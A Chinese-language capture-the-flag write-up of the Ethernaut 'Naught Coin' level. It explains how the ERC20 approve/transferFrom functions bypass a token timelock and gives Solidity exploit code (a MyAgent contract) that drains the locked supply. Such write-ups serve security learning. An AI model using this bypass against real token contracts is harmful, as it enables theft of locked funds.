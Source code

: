 
# level15 Naught Coin

这题的合约继承了`ERC20/StandardToken`(https://github.com/OpenZeppelin/openzeppelin-solidity/blob/master/contracts/token/ERC20/StandardToken.sol)，因此也自然继承了里面的一些函数。

我们可以看到ERC20还包含了allowance这种功能，以及里面自带一个transferFrom函数。利用思路是，我们可以创建一个合约`MyAgent`，然后手工调用`StandardToken.approve()`授权该合约使用我们的tokens，然后我们通过该合约`MyAgent.getAllToken()`调用`StandardToken.transferFrom()`函数把tokens全部转移即可，非常简单。或者直接自己approve自己账户地址，然后调用transferFrom也行。

代码如下：
```solidity
pragma solidity ^0.4.18;

contract NaughtCoin {

  string public constant name = 'NaughtCoin';
  string public constant symbol = '0x0';
  uint public constant decimals = 18;
  uint public timeLock = now + 10 years;
  uint public INITIAL_SUPPLY = 1000000 * (10 ** decimals);
  address public player;
  
  function transferFrom(
    address _from,
    address _to,
    uint256 _value
  )
    public
    returns (bool);

  function transfer(address _to, uint256 _value) lockTokens public returns(bool);

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      if (now < timeLock) {
        _;
      }
    } else {
     _;
    }
  }

  function approve(address _spender, uint256 _value) public returns (bool);
}

contract MyAgent {
    address owner;
    NaughtCoin c;
    
    function MyAgent(address _c) public {
        owner = msg.sender;
        c = NaughtCoin(_c);
    }
    
    function getAllToken() public {
        c.transferFrom(owner, this, c.INITIAL_SUPPLY());
    }
}
```

